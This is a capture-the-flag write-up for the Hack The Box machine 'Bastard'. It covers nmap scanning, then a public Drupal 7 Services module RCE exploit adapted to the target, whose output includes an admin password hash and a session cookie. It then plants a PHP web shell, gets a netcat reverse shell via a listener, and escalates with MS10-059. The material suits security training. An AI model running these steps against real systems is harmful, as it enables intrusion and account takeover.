







# Bastard Writeup w/o Metasploit



## Reconnaissance <a id="5095"></a>

Run the [nmapAutomato](https://github.com/rkhal101/nmapAutomator)r script to enumerate open ports and services running on those ports.

```text
./nmapAutomator.sh 10.10.10.9 All
```

* **All**: Runs all the scans consecutively.

We get back the following result.

```text
Running all scans on 10.10.10.9Host is likely running Windows---------------------Starting Nmap Quick Scan---------------------Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-16 10:56 EST
Nmap scan report for 10.10.10.9
Host is up (0.043s latency).
Not shown: 997 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknownNmap done: 1 IP address (1 host up) scanned in 6.84 seconds---------------------Starting Nmap Basic Scan---------------------Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-16 10:56 EST
Nmap scan report for 10.10.10.9
Host is up (0.038s latency).PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windowsService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.32 seconds----------------------Starting Nmap UDP Scan----------------------
                                                                                                                                 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-16 10:57 EST
Nmap scan report for 10.10.10.9
Host is up.
All 1000 scanned ports on 10.10.10.9 are open|filteredNmap done: 1 IP address (1 host up) scanned in 202.50 seconds---------------------Starting Nmap Full Scan----------------------
                                                                                                                                 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-16 11:01 EST
Initiating Parallel DNS resolution of 1 host. at 11:01
Completed Parallel DNS resolution of 1 host. at 11:01, 0.02s elapsed
Initiating SYN Stealth Scan at 11:01
Scanning 10.10.10.9 [65535 ports]
....
Nmap scan report for 10.10.10.9
Host is up (0.045s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknownRead data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 264.79 seconds
           Raw packets sent: 131270 (5.776MB) | Rcvd: 274 (17.620KB)No new ports---------------------Starting Nmap Vulns Scan---------------------
                                                                                                                                 
Running CVE scan on basic ports
                                                                                                                                 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-16 11:05 EST
Nmap scan report for 10.10.10.9
Host is up (0.038s latency).PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windowsService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.13 seconds
```

**Note:** The gobuster, nikto and droopescan scans kept timing out. The web server seems to be not able to handle the requests that these tools were sending.

We have three open ports.

* **Port 80:** running Drupal 7
* **Port 135 & 49154:** running Microsoft Windows RPC

Before we move on to enumeration, let’s make some mental notes about the scan results.

* Port 80 is running Drupal 7 which I know from the [Hawk box](https://medium.com/@ranakhalil101/hack-the-box-hawk-writeup-w-o-metasploit-da80d51defcd) is vulnerable to a bunch of exploits. Most of these exploits are associated with the modules that are installed on Drupal. Since droopescan is not working, we’ll have to manually figure out if these modules are installed.

## Enumeration <a id="c516"></a>

Visit the web application in the browser.



It’s running Drupal which is is a free and open-source content management framework. Let’s look at the _CHANGELOG_ to view the exact version.



It’s running Drupal 7.54.

Let’s try and find credentials to this application. I googled “default credentials drupal”, but I didn’t find anything useful. Next, I tried common credentials _admin/admin_, _admin/password_, etc. but was not able to log in.

When it is an off-the-shelf software, I usually don’t run a brute force attack on it because it probably has a lock out policy in place.

Next, run searchsploit.

```text
searchsploit drupal 7
```

Let’s view vulnerability number 41564.

```text
searchsploit -m 41564
```

It links to this [blog post](https://www.ambionics.io/blog/drupal-services-module-rce). It seems to be a deserialization vulnerability that leads to Remote Code Execution \(RCE\). Looking at the code, it we see that it visit the path _/rest\_endpoint_ to conduct the exploit.

```text
$url = 'http://vmweb.lan/drupal-7.54';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
```

That path is not found on the box, however, if we simply change it to _/rest_ it works!


So it is using the _Services_ module. We’ll use this exploit to gain an initial foothold on the box.

## Initial Foothold <a id="03d0"></a>

Make the following changes to the exploit code.

```text
$url = '10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';
```

There are also two comments that are not wrapped properly that you’ll need to fix.

Run the exploit.

```text
php 41564.php 
```

We get an “ Uncaught Error: Call to undefined function curl\_init\(\)” error message. That’s because we don’t have _php-curl_ installed on our kali machine.

```text
apt-get install php-curl
```

Now the exploit should work.

```text
root@kali:~/Desktop/htb/bastard# php 41564.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: 10.10.10.9/dixuSOspsOUU.php
```

Perfect! It created two files: _session.json_ and _user.json_. View the content of _user.json_.

```text
root@kali:~/Desktop/htb/bastard# cat user.json 
{
    "uid": "1",
    "name": "admin",
    "mail": "drupal@hackthebox.gr",
    "theme": "",
    "created": "1489920428",
    "access": "1581904913",
    "login": 1581908048,
    "status": "1",
    "timezone": "Europe\/Athens",
    "language": "",
    "picture": null,
    "init": "drupal@hackthebox.gr",
    "data": false,
    "roles": {
        "2": "authenticated user",
        "3": "administrator"
    },
    "rdf_mapping": {
        "rdftype": [
            "sioc:UserAccount"
        ],
        "name": {
            "predicates": [
                "foaf:name"
            ]
        },
        "homepage": {
            "predicates": [
                "foaf:page"
            ],
            "type": "rel"
        }
    },
    "pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
```

It gives us the hashed password of the _admin_ user. We could run it through a password cracker, however, we don’t need to because the _session.json_ file gives us a valid session cookie for the _admin_ user.

```text
root@kali:~/Desktop/htb/bastard# cat session.json 
{
    "session_name": "SESSd873f26fc11f2b7e6e4aa0f6fce59913",
    "session_id": "lxPgeAwtaNwwE9BENklEVeWJf5CLaH5NFe5kEwM6_Is",
    "token": "9EsaYcsIlgp7r31F9qG3HJILwA3cbTzSR-61nEB0r_Y"
}
```

Let’s add the cookie to our browser using the _Cookie Manager_ plugin.



Then refresh the page.



We’re logged in as _admin_! Click on the _Modules_ tab and check if the _PHP filter_ is enabled. It is. This means we can add PHP code.

Click on _Add new content_ on the welcome page &gt; click on _Basic page_. In the _Title_ field add the value “_shell_”. In the _Body_ field add the simple PHP shell to upload/execute code from the [following link](https://d47zm3.me/resources/infosec/reverse-shells/). Make sure to include the “_&lt;?php ?&gt;_” tags and change it to the IP address of your attack machine. This gives us the ability to both execute and upload files. In the _Text format_ filed choose the option _PHP code_. Then hit _Save_.


In my case the entry created is under the path _/node/4_. Let’s test it out.



We have code execution! I can’t seem to use powershell from here, so what we’ll do is upload netcat on the box and then use it to send a reverse shell back to our attack machine.

Run the _systeminfo_ command.



It’s a 64-bit operating system. Download the 64-bit executable of netcat from [here](https://eternallybored.org/misc/netcat/). Start up a python server.

```text
python -m SimpleHTTPServer 7777
```

Upload it using the _fupload_ parameter.


Then set up a listener on the attack machine.

```text
nc -nlvp 1234
```

Use the uploaded netcat executable to send a reverse shell to our attack machine.


We get a shell!

```text
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...                                                                                                                                             
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.9] 60572                                                                                                               
Microsoft Windows [Version 6.1.7600]                                                                                                                                    
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.                                                                                                         
                                                                                                                                                                        
C:\inetpub\drupal-7.54>whoami                                                                                                                                           
whoami                                                                                                                                                                  
nt authority\iusr
```

Grab the _user.txt_ flag.


Now we need to escalate privileges.

## Privilege Escalation <a id="580f"></a>

We know from the output of the _systeminfo_ command the OS name and version.

```text
OS Name:                Microsoft Windows Server 2008 R2 Datacenter 
OS Version:             6.1.7600 N/A Build 7600
```

The [Arctic box](https://medium.com/@ranakhalil101/hack-the-box-arctic-writeup-w-o-metasploit-61a43f378c) was running the same OS, so I used the same exploit MS10–059 to escalate privileges for this box. I won’t explain it here, please refer to the the Arctic writeup.


Grab the _root.txt_ flag.


## Lessons Learned <a id="a815"></a>

What allowed me to gain initial access to the machine and escalate privileges, is exploiting known vulnerabilities that had patches available. So it goes without saying, you should always update your software!

